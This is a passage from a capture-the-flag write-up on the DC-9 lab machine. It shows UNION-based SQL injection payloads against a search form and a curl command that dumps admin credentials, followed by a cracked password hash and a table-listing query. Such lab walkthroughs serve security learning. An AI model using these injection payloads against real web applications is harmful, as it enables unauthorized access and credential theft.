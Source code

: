 At this point I'm going to intercept the request with burpsuite to later make the request with curl and filter the data with regular expressions, in this way I have the credentials stored in a file on my machine.

`Mary' and 1=2 union select concat(Username,0x3a,Password),null,null,null,null,null from Users #`

![](/assets/images/DC-9/screenshot-8.png)

```console
root@kali:~$ curl -s -X POST "http://192.168.179.128/results.php" --data "search=Mary%27+and+1%3D2++union+select+concat%28Username%2C0x3a%2CPassword%29%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull+from+Users+%23" | grep -oP "\w*:\S{32}" > users_staff
root@kali:~$ cat users_staff
admin:856f5de590ef37314e7c3bdf6f8a66dc
```

In the result it can be seen that there's only one record. Let's try to crack this password hash in [hashes.com](https://hashes.com). 

![](/assets/images/DC-9/screenshot-9.png)

As you can see, the password for this hash is **transorbital1**

**users database**

Now let's try to find out what interesting information may exist in the **users** schema, for this we start by listing the tables.

`Mary' and 1=2 union select table_name,null,null,null,null,null from information_schema.tables where table_schema='users' #`

![](/assets/images/DC-9/screenshot-10.png)
